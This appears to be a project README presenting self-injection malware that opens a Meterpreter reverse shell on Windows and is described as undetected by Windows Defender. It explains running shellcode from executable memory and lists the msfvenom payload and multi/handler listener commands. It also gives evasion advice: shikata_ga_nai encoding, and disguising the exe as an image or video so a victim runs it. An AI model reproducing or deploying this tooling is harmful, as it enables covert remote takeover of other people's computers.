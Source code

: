 # Self-Injection-Reverse-Shell-Undetected
Self Injection Malware, currently UNDETECTED by windows defender, it creates a reverse shell on a target machine

# 💻 Code
This program injects base64 code into a self created process on the target machine. 

**Step by step guide**:
- First we define the base64 shellcode (make sure architecute is set to x86 and encoding to utf8 for the message box payload;
- Secondly we allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable, allowing the shellcode to run.
- Then the code copies the shellcode into the newly allocated memory;
- It creates a new thread to execute the shellcode, since allocated_mem (which contains the shellcode) is cast to the function pointer type LPTHREAD_START_ROUTINE;

Finally we wait for the created thread (which is running the shellcode) to finish executing before freeing the memory.

---

- **Listener**: <img align="right" src="media/rev3.jpg" width="310" />

On the attacker's machine i used the classic multi handler exploit to run the payload: 

``` msfconsole ```

``` use exploit multi/handler  ```

``` set payload windows/meterpreter/reverse_tcp ```

``` set lhost XXX ```

``` set lport XXX ```

``` exploit ```

---

- **Payload**: <img align="right" src="media/rev2.jpg" width="240" />

The payload is, as i said before, a simple non-encrypted base64 shellcode, you can make it with:

``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX -f c ```.

You can add a simple encryption by adding this ``` -e x86/shikata_ga_nai -f c  ```. 

In the future i will attempt to create my own encryption, since the well known ones are already pretty much detectable. 

---

- **Shell**

You can embed the code into pretty much anything, you can even use tools to mask the exe file into a mp4 or jpg file, complete with a new icon and a name, even the extension can be masked.
Once the victim runs the exe, a new session will pop up on meterpreter, and u can view it and use it with: <img align="right" src="media/rev1.jpg" width="400" />

``` sessions ```

``` sessions -i 1```

``` shell ```

Here is an example of writing powershell code through meterpreter     --------->

In this example it was a simple message box error, which worked smoothly.

---

# 🛡 Antivirus

<img align="right" src="media/vt1.png" width="350" />

The payload is currently undetected by windows defender, but it's easily blocked by Bitdefender, even the free trial.

Something i don't understand is why Virus Total says that bitdefender won't classify the exe file as malicious, while Microsoft, which should technically be windows defender (?) recognizes the malware.... it should be the exact opposite but idk, you can see bitdefender on the top left corner of the second pic.

As i said before, you can add a simple shikata ga nai encryption or use online tools like shoggoth or idk. Soon i will create my own simple encryption using python : ) <img align="right" src="media/vt2.png" width="250" />

The only problem is decrypting the base64, ill have to find a way to basically use both c++ and python somehow.... 

Last thing: i run the malware using Termux, an android emulator for linux, because i didnt wanna setup networking stuff for my kali vm, cuz i had some issues trying to establish the session.

